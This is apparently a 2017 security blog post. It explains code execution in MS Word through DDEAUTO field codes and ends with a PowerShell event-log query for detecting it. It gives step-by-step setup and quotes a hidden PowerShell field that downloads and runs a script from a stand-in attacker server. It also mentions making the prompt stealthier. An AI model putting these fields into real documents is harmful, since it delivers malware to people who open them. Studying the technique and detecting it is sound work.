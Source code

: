 ```yaml
---
layout: post
title: "Code Execution in MSWord"
date: 2017-10-11
---
```

I read about a cool way to get code execution in MSWord from [SensePost](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/ )'s Saif El-Sherei and later read about a way to detect it from [SecurityForRealPeople](https://www.securityforrealpeople.com/2017/10/exploiting-office-native-functionality.html#more)'s David Longenecker. 
Saif does a good job of explaining the steps in his post, but the basic setup is: 
1. <code> Insert </code> tab -> Quick Parts -> <code> Field </code>
2. choose <code> =(Formula) </code> and click ok
3. right-click on <code> !Unexpected End of Formula </code> and choose <code> Toggle Field Codes </code>
4. change the Field Code to contain:
    <code> {DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  } </code>
5. save the document and then open it
6. you will get two prompts to click through and then calc will open

The possibilities here are endless. Saif's proof of concept video in the post uses powershell to download an empire launcher
    <code> { DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evilserver.ninja/pp.ps1');powershell -e $e "}
</code>
I think depending on the access I had on the machine, I would change the syntax to be more stealthy, so the popup doesnt raise any red-flags with the user. 

Execution is lots of fun, but improving defenders and showing them how to find the cool techniques is really where the money is made. 

I drilled down on this particular code execution with the Powershell command below. It will differ with environment and context:
    <code> Get-EventLog -Log "OAlerts" -Newest 5 | where {$_.eventID -eq 300} | format-list -Property Message</code>
